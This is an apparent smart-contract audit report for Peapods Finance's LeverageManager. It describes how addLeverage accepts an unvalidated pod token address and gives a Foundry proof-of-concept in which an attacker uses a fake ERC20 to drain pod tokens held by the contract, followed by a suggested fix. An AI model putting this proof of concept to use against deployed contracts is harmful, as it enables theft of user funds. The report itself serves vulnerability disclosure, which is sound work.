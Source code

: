 Lone Wintergreen Rattlesnake

Medium

# Malicious ERC20 Token Can Drain Legitimate User Funds in Leverage Manager

### Summary

The [addLeverage function](https://github.com/sherlock-audit/2025-01-peapods-finance/blob/d28eb19f4b39d3db7997477460f9f9c76839cb0c/contracts/contracts/lvf/LeverageManager.sol#L81-L102) lacks proper validation of the pod token used in leverage operations. This allows an attacker to introduce a malicious ERC20 token that mimics the expected pod token but is not actually associated with the position. The function proceeds with the leverage addition, transferring real pod tokens from the leverage manager while only using the attacker’s fake token. As a result, Legitimate pod tokens can be drained from the leverage manager while the attacker’s fake token remains unutilized.
```solidity
function addLeverage(
    uint256 _positionId,
    address _pTkn,
    uint256 _pTknAmt,
    uint256 _pairedLpDesired,
    uint256 _userProvidedDebtAmt,
    bool _hasSelfLendingPairPod,
    bytes memory _config
) external {
    // 1. First records initial balance
    uint256 _pTknBalBefore = IERC20(_pod).balanceOf(address(this));
    
    // 2. Transfers pod tokens from user to contract
    IERC20(_pod).safeTransferFrom(_msgSender(), address(this), _pTknAmt);
    
    // 3. Calculates actual amount received
    uint256 actualReceived = IERC20(_pod).balanceOf(address(this)) - _pTknBalBefore;
    
    // 4. Passes to callback function
    _addLeveragePreCallback(
        _msgSender(),
        _positionId,
        _pod,  // Note: This gets overridden if positionId != 0
        actualReceived,
        ...
    );
}
```


### Root Cause

_No response_

### Internal Pre-conditions

_No response_

### External Pre-conditions

_No response_

### Attack Path

_No response_

### Impact

Users can exploit this mismatch to claim stuck pods in the LeverageManager contract by deploying any ERC20 token causing Unauthorized Asset Draining

### PoC

```solidity
function testAddLeverageWithAttackerDrain() public {
        uint256 pTknAmt = INITIAL_BALANCE;
        uint256 pairedLpDesired = INITIAL_BALANCE / 2;
        bytes memory config = abi.encode(0, 1000, block.timestamp + 1 hours);
        uint256 aliceAssetBalanceBefore = IERC20(dai).balanceOf(ALICE);

        vm.startPrank(ALICE);
        deal(address(peas), ALICE, pTknAmt * 100);
        // wrap into the pod
        peas.approve(address(pod), peas.totalSupply());
        pod.bond(address(peas), pTknAmt, 0);

        pod.transfer(address(leverageManager), pTknAmt);

        uint256 leverageManagerPodBalanceBefore = pod.balanceOf(address(leverageManager));
        assertEq(leverageManagerPodBalanceBefore, pTknAmt, "Leverage Manager should have the pod token");

        address attacker = address(0x929292929);
        vm.startPrank(attacker);
        // attacker deployed fake mocked erc20
        MockERC20 mockERC20 = new MockERC20("", "");
        // attacker minted fake erc20
        mockERC20.mint(attacker, pTknAmt);
        // initialized a position with the created pod
        uint256 positionId = leverageManager.initializePosition(address(pod), attacker, address(0), false);

        deal(dai, address(attacker), 10 ** 18); // flashloan fee

        IERC20(dai).approve(address(leverageManager), type(uint256).max);
        mockERC20.approve(address(leverageManager), type(uint256).max);

        leverageManager.addLeverage(positionId, address(mockERC20), pTknAmt, pairedLpDesired, 0, false, config);

        uint256 leverageManagerPodBalanceAfter = pod.balanceOf(address(leverageManager));
        assertEq(leverageManagerPodBalanceAfter, 0, "Leverage Manager should have zero pod token");
    }
```

### Mitigation

Add a validation to ensure the provided pod matches the inputs pod when position id is not 0, as well `addLeverageFromTkn()`
```solidity
if (_positionId != 0) {
    require(_pod == positionProps[_positionId].pod, "Invalid pod token for position");
}
uint256 _pTknBalBefore = IERC20(_pod).balanceOf(address(this));
IERC20(_pod).safeTransferFrom(_msgSender(), address(this), _pTknAmt);
```